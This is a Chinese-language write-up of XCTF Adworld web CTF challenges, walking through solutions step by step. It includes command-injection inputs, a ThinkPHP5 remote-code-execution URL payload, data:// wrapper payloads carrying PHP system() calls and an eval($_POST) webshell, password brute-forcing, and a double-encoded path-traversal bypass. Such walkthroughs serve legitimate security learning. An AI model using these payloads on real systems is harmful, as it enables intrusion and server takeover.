## 攻防世界WebWp

本文为攻防世界web区的writeup。
<!--more-->

[题目地址](https://adworld.xctf.org.cn/)

### view-source

打开直接右键得到flag。

### robots

robots是一个爬虫协议，规定了访客可以访问哪些文件，以.txt文本显示。在地址栏后添加robots.txt进入robots页面。
显示flag_ls_h3re.php，然后访问，得到flag。

### backup

.bak为电脑自动设置的备份文件。
直接地址添加/index.php.bak可得备份文件，打开可得flag。

### cookie

这道题两种做法
第一种：
直接f12，打开network，

然后在地址栏加入cookie.php

得到flag
第二种：bp
抓包

然后在地址栏加入cookie.php，再次抓包

也可得到flag。

### disabled_button

打开后有个不能按的按钮，f12，发现属性为disabled

把这个删掉，刷新，得到flag。


### weak_auth

进去是这个页面，是爆破没错了。
先随便输入一下，弹窗提示为admin登录，那么用户名应该为admin了。接着就是弱口令，直接bp。

抓包，送到Intruder，payload选择passwords

开始爆破。
然后找到长度不一样的即为密码。
然后登录即可找到flag。

### simple_php

构造地址如下：

php是弱类型，所以'0'==0成立，b能是数字，可以构造b为数组b[]=5678，或者在b后加字母，比较时默认只比较数字部分。

### get_post

这个就是简单的get，post了。


### xff_referer

提示ip地址为123.123.123.123
该题掌握X-Forwarded-For和Referer的知识：
简称XFF，代表客户端，是HTTP的请求端真实的IP。
Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的，服务器基此可以获得一些信息用于处理。referer 是http的拓展头部，作用是记录当前请求页面的来源页面的地址。服务器使用referer确认访问来源，如果referer内容不符合要求，服务器可以拦截或者重定向请求。
用bp抓包修改
右键送到Repeater，添加X-Forwarded-For:123.123.123.123，go，显示如下页面

还要构造referer。

得出flag。

### webshell

这道题就是菜刀的基本使用。
打开菜刀输入url，
打开flag.txt得到flag。

### command_execution

这是命令执行漏洞，也就是用户通过浏览器在远程服务器上执行任意系统命令，这是第一次接触。参考了网上的wp。
先试一下本机127.0.0.1，有回显。
这个是可以添加连接符的，比如&&||等，这里试一下输入127.0.0.1&&dir
dir就是显示目录内容。
回显有index.php
然后试试输入flag关键词
> 127.0.0.1 && find / -name "flag.*"



找到位置，然后开始输入
> 127.0.0.1 && cat /home/flag.txt

得到flag。

### simple_js

查看源代码，是js代码。整理一下。

代码功能是把一串用逗号分隔的数字按ascii转成字符串，然后输出。

代码有很多没有用的变量，需要进行修改。
代码中有这样的ascii串，
>\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30

转码后为55,56,54,79,115,69,114,116,107,49,50
再通过ascii转换

连起来就是flag。

### baby_web

提示说初始页面，想到index.html,不行又试了试index.php，到network里边响应头找到flag。


### Training-WWW-Robots

提示robots，先看看robots文件，

有个fl0g.php，打开看看。

得到flag。

### php_rce

打开试了半天，不知道是干哈的，没办法，搜一下吧。是thinkphp5 rce漏洞，这个以前没有见过。

[ThinkPHP5.x rec漏洞分析与复现](https://blog.csdn.net/qq_40884727/article/details/101452478)
先看一下thinkphp的版本号，然后对症下药。

然后去百度查找该版本poc。
查找flag，构造payload
>http://111.198.29.45:53630/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20%22flag%22

然后查看flag
>http://111.198.29.45:53630/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20%22flag%22



### Web_php_include

php函数



可知程序过滤掉了page=参数传入php://

**第一种方法（大小写绕过）：**

> strstr() 搜索字符串在另一字符串的第一次出现（区分大小写）。

> str_replace() 以其他字符替换字符串中的一些字符（区分大小写）。

根据strstr的区分大小写，构造




然后查看flag



**第二种（data://伪协议执行命令利用）**

该题过滤了php://伪协议，可以使用其他协议，使用data://伪协议
*data://伪协议*
php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是php代码，就会执行代码。
使用方法：
> data://text/plain;base64,xxxx(base64编码后的数据)

<?php system("dir")?> base64编码后使用
> http://111.198.29.45:32386/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJkaXIiKT8%2b

注意编码后+号要用url编码
<?php system("cat fl4gisisish3r3.php")?> base64编码后使用
> http://111.198.29.45:32386/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJjYXQgZmw0Z2lzaXNpc2gzcjMucGhwIik/Pg==

查看源代码可得到flag。



**第三种方法(data://伪协议传木马）**

<?php eval($\_POST[xiaohua]); ?> base64加密后拼接

> http://111.198.29.45:32386/?page=data://text/plain/;base64,PD9waHAgZXZhbCgkX1BPU1RbeGlhb2h1YV0pOyA/Pg==

菜刀连接（这个我连接时没有出现flag，可能不可行）

### ics-06

打开是一个网址，点一遍后，发现只有报表中心跳转，进入了一个新页面。



注意那个id，这个是爆破，打开bp，然后选择数字，先从1到10000跑跑试试。



然后得出2333。将id改为2333，得出flag。

### warmup

f12提示source.php,打开
还有个hint.php



知道应该在这个ffffllllaaaagggg
接下来就是找这个文件了
**代码审计**
checkfile()函数

1. 定义了一个白名单：source.php和hint.php，判断$page是否为空、是否为字符串。
2. 判断$page是否在白名单里，若存在返回true；
3. 考虑到page有参数的情况，\$\_page是取出$page问号前的东西，然后再判断\$\_page是否在白名单里，若存在则返回true；
4. 如果上一步判断失败，则又考虑了url编码的问题，因为url在传入以后服务器会自动进行一次解码。因此传入二次编码后的内容，就可以使checkfile返回true。

接下来就是一个一个试了
> mb_substr ( string $str , int $start [, int $length = NULL [, string $encoding = mb_internal_encoding() ]] ) : string

根据字符数执行一个多字节安全的 substr() 操作。 位置是从 str 的开始位置进行计数。 第一个字符的位置是 0。第二个字符的位置是 1，以此类推。
> mb_strpos ( string $haystack , string $needle [, int $offset = 0 [, string $encoding = mb_internal_encoding() ]] ) : int

查找 string 在一个 string 中首次出现的位置。
第三个if语句中，先进行url解码再截取，因此我们可以将?经过两次url编码，在服务器端提取参数时解码一次，checkFile函数中解码一次，仍会解码为'?'，仍可通过第四个if语句校验。（'?'两次编码值为'%253f'）,构造url：
最终在这样构造url得到：
> http://111.198.29.45:34231/source.php?file=source.php%253f../../../../../ffffllllaaaagggg


